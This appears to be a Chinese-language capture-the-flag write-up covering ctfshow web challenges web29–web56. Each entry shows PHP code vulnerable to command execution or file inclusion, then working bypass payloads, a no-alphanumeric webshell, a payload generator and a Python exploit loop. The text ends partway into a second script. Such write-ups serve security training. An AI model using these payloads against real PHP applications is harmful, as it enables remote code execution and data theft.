




# web入门

## 1.信息收集

## 2.爆破


## 3.命令执行

### web29

1. 代码审计下

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag/i", $c)){
           eval($c);
       }
       //这里对flag进行了正则匹配过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 通过`GET`请求传递参数，进行代码执行，绕过正则过滤即可

   ```shell
   #查看当前目录下文件
   ?c=system('ls');
   ```

   

3. 发现有`flag.php`，但是正则过滤了`flag`，这里可以用通配符来绕过

   ```shell
   ?c=system('cat fla?.php');
   
   #php没有显示要查看源代码
   
   #也可以重命名绕过
   ```

   


### web30

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php/i", $c)){
           eval($c);
       }
       //这里对system/php增加了过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 考虑其他系统执行函数进行绕过，还可以用反引号作为系统命令

   ```shell
   ?c=passthru('ls');
   
   #反引号作为系统命令
   ?c=`cp fla?.??? 1.txt`;
   ```

   

3. 因为过滤了`php`,`flag`,这里用通配符来，查看flag
   
      ```shell
      ?c=passthru('cat fla*');
      ```
   
      
   
      


### web31

1. 仍然是代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
           eval($c);
       }
       //在此基础上对cat,sort,shell,.,空格,单引号进行过滤
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里可以构造`eval`函数请求嵌套或者`passthru`函数进行绕过

   ```shell
   ?c=eval($_GET[1]);&1=system('ls');
   
   #passthru函数
   ?c=passthru("ls");
   ```

   

3. 嵌套函数可以无视正则过滤，但是第二种`passthru`方法，`cat`被过滤了，还可以用`tac`,`more`，单引号被过滤用双引号，空格被过滤用tab键

   ```shell
   ?c=eval($_GET[1]);&1=system('cat flag.php');
   
   #passthru函数
   ?c=passthru("tac%09fla*");
   ```

   


### web32

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
           eval($c);
       }
       //过滤flag，system，php，cat，sort，shell，点号，空格，单引号,反撇号,echo,(
   }else{
       highlight_file(__FILE__);
   } 
   ```
   
2. 用上一题的方法，嵌套包含flag.php文件逃逸出来

   ```shell
   ?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
   
   #php://filter参考文件包含漏洞中的php伪协议
   
   #得到的文字base64再解码
   ctfshow{2bf658c1-4a45-4dea-8ecd-6379c4f22abf}
   ```

   


### web33

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c))
         //增加了对( "的过滤
       {
           eval($c);
       }
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 利用构造文件包含来执行命令，payload

   ```shell
   ?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
   
   ?c=include$_GET[a]?>&a=data://text/plain,<?php system('tac flag.php');?>
   
   ?c=include$_GET[a]?>&a=php://input
   #POST提交
   <?php system('tac flag.php');?>
   ```


### web34

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c))
         //增加了:过滤
       {
           eval($c);
       }
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. payload与web33相似

   ```shell
   ?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
   
   ?c=include$_GET[a]?>&a=data://text/plain,<?php system('tac flag.php');?>
   
   ?c=include$_GET[a]?>&a=php://input
   #POST提交
   <?php system('tac flag.php');?>
   ```


### web35

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c))
         //增加了< =过滤
       {
           eval($c);
       }
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 还是不影响`web33`利用文件包含方法

   ```shell
   ?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
   
   ?c=include$_GET[a]?>&a=data://text/plain,<?php system('tac flag.php');?>
   
   ?c=include$_GET[a]?>&a=php://input
   #POST提交
   <?php system('tac flag.php');?>
   ```

   

### web36

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c))
         //在前面的基础上增加了/ 0-9数字的过滤
       {
           eval($c);
       }
       
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 但仍然可以用`web33`构造方法

   ```shell
   ?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
   
   ?c=include$_GET[a]?>&a=data://text/plain,<?php system('tac flag.php');?>
   
   ?c=include$_GET[a]?>&a=php://input
   #POST提交
   <?php system('tac flag.php');?>
   ```


### web37

1. 代码审计

   ```php
    <?php
   //flag in flag.php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag/i", $c))
         //正则过滤flag
       {
           include($c);
         //文件包含
           echo $flag;
       
       }
           
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里可以利用文件包含的伪协议

   ```shell
   ?c=data://text/plain,<?php system('tac fl*.php');?>
   
   ?c=php://input
   #POST传递
   <?php system('tac flag.php');?>
   ```

3. 还可以利用日志文件进行文件包含，让恶意代码执行

   ```shell
   #日志文件路径/var/log/nginx/access.log
   #修改User-agent头部
   利用burp进行重发包，让构造的恶意代码执行
   ```

   


### web38

1. 代码审计

   ```php
    <?php
   //flag in flag.php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag|php|file/i", $c))
         //这里增加了对php,file过滤
       {
           include($c);
           echo $flag;
       
       }
           
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 利用`data`伪协议进行读取，因为同时对`php`进行了过滤，要用`base64`加密

   ```shell
   <?php system('tac flag*')?>
   #base64加密后
   ?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZyonKTs/Pg==
   
   #有些执行出来是空白，可以命令后面加入echo 1;试试
   #例如<?php phpinfo();echo 1;?>
   ```


### web39

1. 代码审计

   ```php
    <?php
   //flag in flag.php
   error_reporting(0);
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/flag/i", $c))
         //这里对flag字符进行过滤
       {
           include($c.".php");
         //在后面添加.php
       }
           
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 本来想用`%00`截断，但是php版本太高了，利用`data://伪协议`将php代码进行执行，后面的`?>`刚好闭合完，`.php`就会被当作`.html`输出

   ```shell
   ?c=data://text/plain,<?php system('tac fla*');?>
   ```


### web40

1. 代码审计

   ```php
   <?php
   if(isset($_GET['c'])){
       $c = $_GET['c'];
       if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c))
         //这里$,:,/...中文括号都进行了过滤
       {
           eval($c);
       }
           
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里肯定不能用常用的方法了，基本都被过滤了，学习一下大佬们的姿势
   ```
   #payload:
   ?c=show_source(next(array_reverse(scandir(pos(localeconv()))))); 
   ```

3. 先来学习下我们要用的几个函数

   ```php
   print_r() 函数用于打印变量，以更容易理解的形式展示
   
   localeconv()：是一个编程语言函数，返回包含本地数字及货币信息格式的数组。其中数组中的第一个为点号(.)
   
   pos()：返回数组中的当前元素的值。这里也可以换成current()，作用和pos类似
   
   array_reverse()：数组逆序
   
   scandir()：获取目录下的文件
   
   next()： 函数将内部指针指向数组中的下一个元素，并输出。
   ```

3. 通过 `pos(localeconv())`得到点号,因为`scandir('.')`表示得到当前目录下的文件

   

   

4. 这里将当前目录读取到后，进行数组逆序`array_reverse`，要得到`flag.php`，需要用`next`将指针指向下一位，即`flag.php`

   

   

5. 用`show_source`将代码显示出来

   


### web41

1. 代码审计

   ```php
    <?php
   if(isset($_POST['c'])){
       $c = $_POST['c'];
   if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
           eval("echo($c);");
       }
   }else{
       highlight_file(__FILE__);
   }
   ?> 
   ```

2. 这里没有过滤`|`可以利用`|`构造出无字母数字命令，这里具体原理不再班门弄斧了，看一下参考文章

3. 这里整理了一份通用脚本，包含了异或，或，取反，自增，先利用`php`将ascii为0-255的字符中，找到能得到我们可用的字符的字符，并生成在`rec.txt`。

   ```php
   <?php
   #从字符中过滤被正则过滤的字符，生成能够被我们用的字符串，搭配rec_bypass_exp使用
   //或
   function orRce($par1, $par2){
       $result = (urldecode($par1)|urldecode($par2));
       return $result;
   }
   
   //异或
   function xorRce($par1, $par2){
       $result = (urldecode($par1)^urldecode($par2));
       return $result;
   }
   
   //取反
   function negateRce(){
       fwrite(STDOUT,'[+]your function: ');
   
       $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
   
       fwrite(STDOUT,'[+]your command: ');
   
       $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
   
       echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
   }
   
   //自增
   //测试发现7.0.12以上版本不可使用
   //使用时需要url编码下
   //$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
   //固定格式 构造出来的 assert($_POST[_]);
   //然后post传入   _=phpinfo();
   
   
   //mode=1代表或，2代表异或，3代表取反
   //取反的话，就没必要生成字符去跑了，因为本来就是不可见字符，直接绕过正则表达式
   function generate($mode, $preg='/[0-9]/i'){
       if ($mode!=3){
           $myfile = fopen("rce.txt", "w");
           $contents = "";
   
           for ($i=0;$i<256;$i++){
               for ($j=0;$j<256;$j++){
                   if ($i<16){
                       $hex_i = '0'.dechex($i);
                   }else{
                       $hex_i = dechex($i);
                   }
                   if ($j<16){
                       $hex_j = '0'.dechex($j);
                   }else{
                       $hex_j = dechex($j);
                   }
                   if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                       echo "";
                   }else{
                       $par1 = "%".$hex_i;
                       $par2 = '%'.$hex_j;
                       $res = '';
                       if ($mode==1){
                           $res = orRce($par1, $par2);
                       }else if ($mode==2){
                           $res = xorRce($par1, $par2);
                       }
   
                       if (ord($res)>=32&ord($res)<=126){
                           $contents=$contents.$res." ".$par1." ".$par2."\n";
                       }
                   }
               }
   
           }
           fwrite($myfile,$contents);
           fclose($myfile);
       }else{
           negateRce();
       }
   
   }
   //自行更改模式 更改正则匹配
   generate(1,'/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i');
   ```

4. 访问`php`脚本，会生成我们构造好的可见字符字典，再利用`exp`脚本，需要根据实际情况改一下路径和url

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/7 11:00
   @Author : Seals6
   @File : rec_bypass_exp.py
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
   
   '''
   import requests
   import urllib
   from sys import *
   import os
   
   def action(arg):
       s1 = ""
       s2 = ""
       for i in arg:
         #路径自行修改
           f = open("rce.txt", "r")
           while True:
               t = f.readline()
               if t == "":
                   break
               if t[0] == i:
                   # print(i)
                   s1 += t[2:5]
                   s2 += t[6:9]
                   break
           f.close()
       #切换输出异或还是或
       # output = "(\"" + s1 + "\"^\"" + s2 + "\")"
       output = "(\"" + s1 + "\"|\"" + s2 + "\")"
       return (output)
   
   
   while True:
       #根据实际情况构造
       param = action(input("\n[+] your function：")) + action(input("[+] your command："))
       print(param)
   
       #requests库请求网址，自行决定
       url=""
       data = {
           'c': urllib.parse.unquote(param)
       }
       r = requests.post(url, data=data)
       print("\n[*] result:\n" + r.text)
   ```

5. 运行输入命令，因为是`POST`，提交需要`url编码`最好利用，`requests`库进行请求，`get`可以输出进行手工提交

   


参考文章：

[P神-一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

[羽师傅-无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本](https://blog.csdn.net/miuzzx/article/details/109143413)

### web42

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       system($c." >/dev/null 2>&1");
     //标准输出和错误输出都进了黑洞，不会打印到屏幕
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里是将标准输入重定向到黑洞，再把标准错误指向标准输入，则标准输出和错误都进黑洞了，不会打印到屏幕上，可以利用`shell`命令分隔即可

   ```php
   ;	//分号
   |	//只执行后面那条命令
   ||	//只执行前面那条命令
   &	//两条命令都会执行
   &&	//两条命令都会执行
   %0a //换行符
   %0d //回车符
   ```

   ```shell
   ?c=tac fla*||
   ?c=tac fla*;
   ```


### web43

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat/i", $c))
         //这里把; cat进行了过滤
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里仅仅只过滤了`;` `cat`进行了过滤，可以替换成其他文件查看的函数

   ```shell
   more:一页一页的显示档案内容
   less:与 more 类似
   head:查看头几行
   tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
   tail:查看尾几行
   nl：显示的时候，顺便输出行号
   od:以二进制的方式读取档案内容
   vi:一种编辑器，这个也可以查看
   vim:一种编辑器，这个也可以查看
   sort:可以查看
   uniq:可以查看
   file -f:报错出具体内容
   grep
   strings
   ```

   ```shell
   ?c=tac fl*||
   ?c=nl fl*||
   ```


### web44

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/;|cat|flag/i", $c))
         //过滤; cat flag
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 按照上一题`web43`的方法，替换`cat`函数，文件名用通配符进行替换

   ```shell
   ?c=strings fl* ||
   ?c=tac fl* ||
   ```


### web45

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| /i", $c))
         //过滤了; cat flag 空格
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 还过滤了空格，要进行空格绕过

   ```shell
   > < <> 重定向符
   %09(需要php环境)
   ${IFS}
   $IFS$9 #$9指传过来的第9个参数
   {cat,flag.php} #用逗号实现了空格功能
   %20
   ```

   ```shell
   ?c=tac${IFS}fl*%0a
   ?c=tac$IFS$9fl*$IFS$9||
   
   #%20不行的原因是，get提交时，会自动进行解码成空格，匹配上正则
   ```


### web46

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c))
         //增加了数字，$,*过滤
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里把`$` `*`过滤掉了，那么就不能用`${IFS}`了，这里用`%09`提交后会自动解码为`tap`键，不会被正则匹配上，`*`号被过滤，可以用`?`进行代替

   ```shell
   ?c=tac%09fla??php||
   ```


### web47

1. 代码审计

   ```php
   <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c))
         //增加了几个读取文件内容命令进行过滤
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. `Web43`的方法，替换函数即可

   ```shell
   ?c=tac%09fla?.php||
   ?c=strings%09fla?.php||
   ?c=vi%09fla?.php||
   ?c=nl%09fla?.php||
   ```


### web48

1. 代码审计

   ```php
   <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c))
         //增加了几个函数
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 可以用`web43`方法，替换没过滤的函数，例如`tac`，这里学习了新姿势

   ```shell
   ?c=nl<fla''g.php||
   ?c=tac%09fla?.php||
   ```

   

### web49

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c))
         //增加了反引号，%
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 同`web43`，替换没有过滤的函数

   ```shell
   ?c=nl<fla''g.php||
   ?c=tac%09fla?.php||
   
   #%09为什么没有被过滤，因为提交时会自动解码为tap键，绕过了过滤
   ```


### web50

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c))
         //这里增加了过滤%09 &符号
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 因为过滤了`%09`，就不能绕过空格了，这里用`nl`进行读取

   ```shell
   ?c=nl<fla''g.php||
   
   #nl<flag?php||这样写不行，因为重定向不支持通配符，单引号分隔是Linux的一个特性，执行时会自动忽略单引号
   ```


### web51

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c))
         //这里把tac过滤了
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 用`nl`进行替换，同`web51`

   ```shell
   ?c=nl<fl''ag.php||
   ```


### web52

1. 代码审计

   ```php
   <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c))
         //增加了<>的过滤
       {
           system($c." >/dev/null 2>&1");
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 增加了`<` `>`的过滤，但是没有对`$`过滤，可以利用`${IFS}`进行绕过空格，发现是假的`flag`，那么应该在根目录了

   ```shell
   ?c=nl${IFS}fla?.php||
   ?c=nl${IFS}fla\g.php%0a
   ```

   

3. 查看下根目录

   ```shell
   ?c=ls${IFS}/||
   ```

   

4. 查看flag

   ```shell
   ?c=nl${IFS}/fla?||
   ```


### web53

1. 代码审计

   ```php
   <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
           echo($c);
           $d = system($c);
           echo "<br>".$d;
       }else{
           echo 'no';
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 仔细看下，`$`没过滤，`nl`没过滤，还不会重定向了

   ```shell
   ?c=nl${IFS}fla?.php
   ?c=ta''c${IFS}fl''ag.php
   
   #新姿势，利用\进行绕过
   ?c=ta\c${IFS}fl\ag.php
   ```


### web54

1. 代码审计

   ```php
    <?php
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c))
       //这里对大部分函数，分号，空格，数字，*，%，tap键，&，`进行了过滤，并且函数内部无论写什么都会被正则匹配上
       {
           system($c);
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 考虑没有过滤的函数例如`vi` `grep`，再对空格进行绕过

   ```shell
   ?c=vi${IFS}fla?.php
   
   #利用grep，将文件中包含{的一行输出出来，等于grep { flag.php命令
   ?c=grep${IFS}{${IFS}fla?.php
   ```


### web55

1. 代码审计

   ```php
   <?php
   // 你们在炫技吗？
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c))
         //过滤了字母 ; ` % %09 &号
       {
           system($c);
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里把字母过滤了，但是数字没有被过滤，所以要构造无文字的命令，这里参考了几篇文章，有几种办法。

3. 第一种利用`linux`环境下，`/bin`目录有系统常用命令，例如:cat、cp、chmod、df、dmesg、gzip、kill、ls、mkdir、more、mount、rm、su、tar、base64等，可以直接利用通配符进行调用

   ```shell
   #没有过滤数字，可以用base64进行编码
   ?c=/???/????64 ????.???
   ```

   

4. 第二种是制作无字母数字的命令，在`php`中，如果我们进行上传文件，会通常在服务器端保存为`/tmp/phpxxxxxx`的形式，有条件竞争异曲同工之妙，文件名最后的6个字符是随机的大小写字母，而且最后一个字符大概率是大写字母。容易想到的匹配方式就是利用`？`进行匹配，即`/???/?????????`，然而因为`/tmp`目录下还有很多文件也也符合条件，也会被匹配上。但是最后一个字符大概率是大写字母，观察`ascii`表可以发现，在大写字母A的前一个符号为`@`，大写字母Z的后一个字母为`[`，因此我们可以使用`[@-[]`来表示匹配大写字母，也就是变成了这样的形式：`/???/????????[@-[]`，到这一步已经能匹配到了我们上传的文件。如何执行呢，`linux`系统中可以用`.`进行执行，相当于`source` 可以执行sh命令。具体命令的原理可以看后面的参考文章。

5. 我们要先制作一个`post上传文件表单`

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <title>upload</title>
   </head>
   <body>
   <form action="http://xxxxxxx.challenge.ctf.show:8080/" method="post" enctype="multipart/form-data">
     <!-- 地址就写服务器的地址-->
       <input type="file" name="file" id="file"><br>
       <input type="submit" name="submit" value="提交">
   </form>
   </body>
   </html>
   ```

6. 抓包上传文件，构造`POC`

   

7. 修改`shell`命令查看`flag`

   

参考文章:

[P神-无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

[Firebasky-无字母数字命令执行](https://blog.csdn.net/qq_46091464/article/details/108513145)

[LINUX中的点命令，或source命令，或点符号](http://blog.sina.com.cn/s/blog_af68a2c201016nh2.html)


### web56

1. 代码审计

   ```php
    <?php
   // 你们在炫技吗？
   if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c))
         //这里把数字也过滤掉了
       {
           system($c);
       }
   }else{
       highlight_file(__FILE__);
   } 
   ```

2. 这里要用到`web56`的第二种方法，无字母数字命令执行，同理可以用上一题制作文件上传，抓包利用`.`进行执行`shell`命令，这里下面用`python`的`requests`库进行请求，有可能临时文件最后一位不是大写,所以匹配不到，需要重复发包几次

   ```python
   # -*- coding: utf-8 -*-
   '''
   @Time : 2021/7/6 11:12
   @Author : Seals6
   @File : upload-ctfshow.py
   @contact: 972480239@qq.com
   @blog: seals6.github.io
   
   -*- 功能说明 -*-
   
   -*- 更新说明 -*-
